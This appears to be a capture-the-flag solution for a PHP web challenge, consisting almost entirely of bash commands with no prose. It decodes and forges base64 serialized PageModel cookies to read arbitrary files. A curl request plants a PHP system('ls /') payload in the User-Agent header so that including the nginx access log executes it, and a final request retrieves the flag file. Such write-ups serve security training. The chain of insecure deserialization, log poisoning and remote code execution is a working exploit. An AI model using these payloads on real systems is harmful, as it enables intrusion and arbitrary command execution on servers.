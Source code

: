 ````bash
echo 'Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9' | base64 -d
````

````bash
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
````
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=

curl --location --request GET 'http://178.128.160.242:31782/' \
--header 'User-Agent: <?php system('\''ls /'\'');?>' \
--header 'Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo='

````bash
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_1Lgjj";}' | base64
````
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfMUxnamoiO30K

curl --location --request GET 'http://178.128.160.242:31782/' \
--header 'Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfMUxnamoiO30K'

